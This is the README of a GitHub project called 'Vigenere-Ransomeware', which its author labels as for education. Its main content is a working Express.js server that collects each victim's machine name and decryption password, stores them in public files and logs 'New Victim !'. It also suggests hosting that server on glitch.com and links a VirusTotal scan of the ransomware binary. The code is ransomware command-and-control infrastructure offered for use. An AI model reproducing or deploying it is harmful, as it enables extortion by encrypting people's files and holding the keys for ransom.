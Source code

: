 # Vigenere-Ransomeware
a vigenere encrypt ransomeware by me :p, for education purpose.


# Used Algorithm
- Vigenere

# NOTE
i didnt try this, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also i created this only for education purpose .


# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static("public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use glitch.com to create projects to get the decrypt password


[Virustotal Scan Result](https://www.virustotal.com/gui/file/acf5c8c6b8658cf20e78a2a812db79dbd67ce65992dd0f5f6353962fec94a02c/detection)
